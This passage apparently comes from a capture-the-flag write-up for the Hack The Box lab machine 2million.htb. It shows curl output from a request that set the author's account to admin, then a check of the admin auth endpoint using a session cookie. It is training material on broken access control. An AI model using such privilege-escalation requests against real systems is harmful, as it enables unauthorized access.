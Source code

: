 ```bash
> Content-Type: application/json
> Content-Length: 42
>
} [42 bytes data]
* upload completely sent off: 42 bytes
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sun, 10 Aug 2025 16:19:00 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
{ [54 bytes data]
100 85 0 43 100 42 231 226 --:--:-- --:--:-- --:--:-- 459
* Connection #0 to host 2million.htb left intact
{
"id": 13,
"username": "0xMR007",
"is_admin": 1
}
```

Perfect, the server returns our user account along with its characteristics.

This seems to have worked; let's check our privileges again.

```bash
curl -v http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314"
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.159.192
* Trying 10.129.159.192:80...
* Connected to 2million.htb (10.129.159.192) port 80
* using HTTP/1.x
> GET /api/v1/admin/auth HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Cookie: PHPSESSID=6rpp80g8sueusjtr6fgeqd5314
>
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sun, 10 Aug 2025 16:21:15 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
* Connection #0 to host 2million.htb left intact
{"message":true}
```
